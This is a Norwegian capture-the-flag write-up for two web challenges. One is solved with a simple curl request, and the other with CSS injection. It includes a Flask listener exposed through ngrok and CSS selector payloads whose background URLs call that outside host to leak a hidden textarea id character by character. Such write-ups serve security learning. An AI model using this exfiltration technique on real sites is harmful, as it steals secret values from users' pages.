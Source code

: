 <details><summary>Flagg</summary></details>


## REDIRECTED

### Oppgave

Hele oppgaven finnes [her](web/redirected/challenge.md)

### Løsning

Den redirecter med en gang, så vi bruker curl:

```bash
curl http://ctf.wackattack.eu:5022/flag
```

<details><summary>Flagg</summary></details>


## STYLISH

### Oppgave

Oppgaven går ut på å bruke CSS injection til å hente ut flagget.

Hele oppgaven finnes [her](web/stylish/challenge.md)

### Løsning

Vi kan sende requests til http://ctf.wackattack.eu:5023/ for å lage payloads, før vi må til http://ctf.wackattack.eu:5023/review for å bruke den på flagget.

Målet er å få tak i id-en til textarea-feltet, fordi dette er flagget.

Først setter jeg opp python + ngrok for å ta imot data:
```bash
ngrok http 5000
```

```py
from flask import Flask, request
app = Flask(__name__)

@app.route('/')
def index():
    print(request.args.get('l'))
    return "Thanks!"

if __name__ == '__main__':
    app.run(port=5000)  # Run the app on port 5000
```

CSS-payloaden kan settes opp slik:
```css
textarea[id^=wack\7Ba]{background: url(https://5e42-158-112-20-145.ngrok-free.app?l=a);}
textarea[id^=wack\7Bb]{background: url(https://5e42-158-112-20-145.ngrok-free.app?l=b);}
textarea[id^=wack\7Bc]{background: url(https://5e42-158-112-20-145.ngrok-free.app?l=c);}
```
Dette gjør at dersom første bokstav (etter wack{) er en `a`, vil pythonservenen min motta en `a`. Dette kan gjentas for alle bokstaver, tall og lovlige tegn: `[A-Za-z0-9_?!]+`.
